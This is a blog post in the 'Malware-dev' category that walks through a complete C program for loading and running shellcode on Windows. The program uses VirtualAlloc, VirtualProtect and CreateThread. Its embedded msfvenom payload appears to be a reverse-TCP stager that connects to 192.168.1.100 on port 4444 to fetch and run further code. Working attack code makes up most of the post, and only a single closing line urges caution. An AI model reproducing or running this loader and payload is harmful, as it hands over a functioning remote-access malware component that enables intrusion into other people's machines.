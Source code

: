 ```yaml
---
layout: post
title:  OST-Malware-dev
date: 2025-02-21 12:00:00 +0000
image: 
    path: /assets/covers/malware.jpg
categories: [Malware-dev]
tags: [Win-Internals, DLL, TLS, C, Malware]
---
```


# Malware development with C Executing Shellcode on Windows

In this post, we’ll examine a C program that loads and executes shellcode using the Windows API. The shellcode, generated with msfvenom, is injected into an allocated memory region and then run in a separate thread. Let’s dive into the code and understand each step.

## The Complete Code

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// Shellcode generated by msfvenom
unsigned char buf[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52\x30\x89"
"\xe5\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28"
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x58\x20\x8b"
"\x48\x18\x50\x01\xd3\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x01\x64\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

unsigned int payload_len = sizeof(buf); // Size of the shellcode

int main(void) {
    void* exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;

    printf("[#] Press <Enter> to allocate memory...");
    getchar();

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (exec_mem == NULL) {
        printf("Error allocating memory.\n");
        return -1;
    }

    printf("%-20s : 0x%-016p\n", "Shellcode Address", (void*)buf);
    printf("%-20s : 0x%-016p\n", "Executable Memory Address", (void*)exec_mem);

    printf("[#] Press <Enter> to move the payload to the designated memory...");
    getchar();
    RtlMoveMemory(exec_mem, buf, payload_len);

    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    if (rv == 0) {
        printf("Error changing memory permissions.\n");
        return -1;
    }

    printf("\nExecuting payload...\n");
    getchar();

    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
    if (th == NULL) {
        printf("Error creating thread.\n");
        return -1;
    }

    WaitForSingleObject(th, INFINITE);
    return 0;
}
```

## Explanation: Line by Line

### 1. Header Files and Shellcode

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
```

- **windows.h**: Provides access to Windows API functions.
- **stdio.h**: Enables standard I/O functions like `printf` and `getchar`.
- **stdlib.h**: Contains standard utilities including memory management.

### 2. Shellcode Declaration

```c
unsigned char buf[] = "...";
unsigned int payload_len = sizeof(buf);
```

- **buf[]**: Stores shellcode bytes.
- **payload_len**: Defines shellcode size for memory allocation.

### 3. Memory Allocation

```c
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```

- Allocates memory dynamically for shellcode execution.

### 4. Memory Execution Permission

```c
rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
```

- Changes memory protection to executable before running the shellcode.

### 5. Shellcode Execution

```c
th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)exec_mem, 0, 0, 0);
```

- Creates a new thread to execute shellcode.

## Final Thoughts

This method of injecting shellcode using Windows API is commonly seen in penetration testing and malware research. Be cautious while testing and always use a controlled environment.

